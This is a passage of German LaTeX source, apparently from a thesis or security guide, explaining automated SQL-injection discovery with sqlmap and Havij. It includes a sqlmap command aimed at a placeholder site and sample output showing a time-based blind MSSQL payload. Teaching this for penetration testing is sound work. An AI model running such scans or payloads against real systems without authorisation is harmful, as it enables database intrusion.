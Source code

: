 Um potenzielle SQL-Injection-Schwachstellen innerhalb einer Anwendung 
zu finden, existieren eine Vielzahl von kommerziellen Anwendungen 
(z.B. Havij\footnote{\url{http://www.itsecteam.com/products/havij-v116-advanced-sql-injection/}}) 
als auch Open-Source-Tools (z.B. Sqlmap\footnote{\url{http://sqlmap.org/}}).

\newpage
{}

Bei Sqlmap handelt es sich um ein Open-Source-Tool um SQL-Injection-Schwachstellen 
automatisiert zu finden und auszunutzen. Bei Sqlmap 
handelt es sich um eine konsolenbasierte Anwendung. Das kommerzielle 
Tool Havij bietet dem Anwender hingegen eine grafische Menüführung an.

Im folgenden Beispiel besteht die Vermutung, dass einer der folgenden 
POST-Parameter für SQL-Injection anfällig ist. Dabei ist im Vorfeld der 
Überprüfung bekannt, dass es sich bei der Backend-Datenbank um eine 
MSSQL-Datenbank handelt. Um dies automatisiert zu verifizieren, wird 
Sqlmap mit folgenden Parametern aufgerufen:

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
sqlmap.py -u "http://www.beispiel.de"
--data="p1=index.aspx?txtMail=user@name.de&txtPw=geheim&cmdSend=Login" 
--dbms=mssql --risk=3 --level=3
\end{lstlisting}

Ist einer der Parameter für SQL-Injection-Angriffe anfällig, werden 
Informationen zum darunterliegen Betriebssystem, der eingesetzten 
Datenbank, als auch Details zur der verwendeten Injection-Technik 
ausgegeben.

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
[INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows Vista
web application technology: ASP.NET, ASP, Microsoft IIS 7.0
back-end DBMS: Microsoft SQL Server 2008

Place: POST
  Type: AND/OR time-based blind
  Title: Microsoft SQL Server/Sybase time-based blind
  Payload: p1=index.aspx?txtMail=user@name.de' WAITFOR DELAY '0:0:5'
  --&txtPw=geheim&cmdSend=Login
\end{lstlisting}

Wie der Ausgabe zu entnehmen ist, wird als Datenbanksystem das Microsoft 
Produkt SQL-Server 2008 auf einem Microsoft Windows Vista betrieben. 
Der Parameter \texttt{txtMail} ist für einen time-based blind 
SQL-Injection-Angriff anfällig.

